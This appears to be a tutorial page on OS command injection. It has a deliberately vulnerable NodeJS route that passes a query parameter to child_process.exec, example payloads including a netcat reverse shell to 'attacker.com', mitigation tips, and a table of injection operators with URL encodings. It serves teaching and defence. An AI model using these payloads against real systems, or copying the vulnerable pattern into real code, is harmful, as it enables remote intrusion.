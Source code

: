 ### NodeJS Example
```
app.get("/createfile", function(req, res){
    child_process.exec(`touch /tmp/${req.query.filename}.txt`);
});
```
Vulnerable input:
filename=test;id

### Exploitation Basics
```
test;id
test&&whoami
test||ls
test|nc attacker.com 4444 -e /bin/bash
```

### 🛡️ Mitigation Strategies
* Never trust user input.
* Use input validation/whitelisting.
* Escape input properly.
* Use secure APIs (avoid shell execution).
* Apply least privilege to the running environment.

-------------------
# Detection

### Command Injection Methods

To inject an additional command to the intended one, we may use any of the following operators:

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                      |
|--------------------|---------------------|------------------------|----------------------------------------|
| Semicolon          | `;`                 | `%3b`                  | Both                                   |
| New Line           | `\n`                | `%0a`                  | Both                                   |
| Background         | `&`                 | `%26`                  | Both (second output generally shown first) |
| Pipe               | `|`                 | `%7c`                  | Both (only second output is shown)     |
| AND                | `&&`                | `%26%26`               | Both (only if first succeeds)          |
| OR                 | `||`                | `%7c%7c`               | Second (only if first fails)           |
| Sub-Shell          | `` ` ` `            | `%60%60`               | Both (Linux-only)                      |
| Sub-Shell          | `$()`               | `%24%28%29`            | Both (Linux-only)                     |

We can use any of these operators to inject another command so both or either of the commands get executed. We would write our expected input (e.g., an IP), then use any of the above operators, and then write our new command.
For basic command injection, all of these operators can be used for command injections regardless of the web application language, framework, or back-end server
